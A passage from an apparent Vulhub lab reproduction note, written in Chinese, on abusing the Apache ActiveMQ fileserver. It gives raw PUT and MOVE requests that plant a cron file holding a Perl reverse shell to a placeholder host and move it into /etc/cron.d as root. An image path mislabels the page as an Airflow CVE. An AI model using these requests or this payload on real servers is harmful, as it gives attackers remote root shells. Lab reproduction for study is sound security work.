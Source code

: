 ![请求都返回204了，说明写入成功](./../../../../images/Vulhub/activemq/Apache Airflow 示例dag中的命令注入（CVE-2020-11978）/写入crontab，自动化弹shell/请求都返回204了，说明写入成功.png)

这个方法需要 ActiveMQ 是 root 运行，否则也不能写入 cron 文件。

**漏洞复现**

访问 http://centos7-6.local:8161/fileserver/ ，抓包，上传 cron 配置文件

> 记得使用 n.py 更改换行符格式为 `\n`

```http
PUT /fileserver/test.txt HTTP/1.1
Host: centos.local:8161
Cache-Control: max-age=0
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
If-Modified-Since: Fri, 13 Feb 2015 17:54:40 GMT
Connection: close
Content-Length: 241

*/1 * * * * root /usr/bin/perl -e 'use Socket;$i="[ip]";$p=[port];socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

> 计划每隔一分钟触发一次

移动到 /etc/cron.d/root 

```http
MOVE /fileserver/test.txt HTTP/1.1
Destination: file:///etc/cron.d/root
Host: centos.local:8161
Cache-Control: max-age=0
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
If-Modified-Since: Fri, 13 Feb 2015 17:54:40 GMT
Connection: close
Content-Length: 0


```
